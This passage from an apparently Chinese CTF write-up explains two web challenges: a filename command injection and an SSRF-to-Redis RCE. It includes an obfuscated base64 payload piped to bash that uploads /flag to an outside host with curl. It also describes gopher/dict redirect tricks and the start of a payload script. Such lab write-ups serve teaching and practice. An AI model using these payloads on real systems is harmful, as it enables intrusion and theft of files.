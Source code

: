burp 上传时抓包把 filename 改成下面的命令即可 (base64 的知识点在第一周的 writeup 里面就提到过)

```bash
test.zip;echo Y3VybCBob3N0LmRvY2tlci5pbnRlcm5hbDo0NDQ0IC1UIC9mbGFnCg==|base64 -d|bash;1.zip
```

![image-20230930161419225](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202311021207772.png)

命令注入这个点其实跟第一周的 ping 类似, 只不过换了一种形式

### web_snapshot

题目会通过 curl 函数请求网页, 并将 html 源码保存在 Redis 数据库中

请求网页的过程很明显存在 ssrf, 但是限制输入的 url 只能以 http / https 开头

```php
function _get($url) {
    $curl = curl_init();
    curl_setopt($curl, CURLOPT_URL, $url);
    curl_setopt($curl, CURLOPT_HEADER, 0);
    curl_setopt($curl, CURLOPT_RETURNTRANSFER, 1);
    curl_setopt($curl, CURLOPT_FOLLOWLOCATION, true);
    $data = curl_exec($curl);
    curl_close($curl);
    return $data;
}
```

这题可能出的有点难了, 因此后面给了一些 hint

首先注意 `curl_setopt` 设置的参数 `CURLOPT_FOLLOWLOCATION`, 代表允许 curl 根据返回头中的 Location 进行重定向

参考: https://www.php.net/manual/zh/function.curl-setopt.php

![image-20230930162418965](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202311021207504.png)

![image-20230930162447209](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202311021207029.png)

![image-20230930162512479](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202311021207958.png)

而 curl 支持 dict / gopher 等协议, 那么我们就可以通过 Location 头把协议从 http 重定向至 dict / gopher, 这个技巧在一些关于 ssrf 的文章里面也会提到

结合 redis 的知识点, 可以尝试 redis 主从复制 rce

https://www.cnblogs.com/xiaozi/p/13089906.html

https://github.com/Dliv3/redis-rogue-server

payload

```python
import requests
import re

def urlencode(data):
    enc_data = ''
    for i in data:
        h = str(hex(ord(i))).replace('0x', '')
        if len(h) == 1:
            enc_data += '%0' + h.upper()
        else:
            enc_data += '%' + h.upper()
    return enc_data

def gen_payload(payload):

    redis_payload = ''

```